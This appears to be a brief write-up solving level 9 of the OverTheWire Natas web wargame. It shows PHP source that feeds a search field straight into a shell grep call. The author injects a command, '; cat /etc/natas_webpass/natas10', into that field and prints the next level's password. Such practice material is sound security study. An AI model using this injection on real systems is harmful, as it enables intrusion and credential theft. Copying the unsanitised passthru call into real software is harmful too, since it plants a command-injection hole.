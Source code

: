 /view-source.html
```
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas9", "pass": "<censored>" };</script></head>
<body>
<h1>natas9</h1>
<div id="content">
<form>
Find words containing: <input name=needle><input type=submit name=submit value=Search><br><br>
</form>


Output:
<pre>
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    passthru("grep -i $key dictionary.txt");
}
?>
</pre>

<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

They are using grep... seems like we just got ourselves a dumb terminal c: lets try realing out the file we want.
```
; cat /etc/natas_webpass/natas10; echo

Output:
nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu
dictionary.txt
```

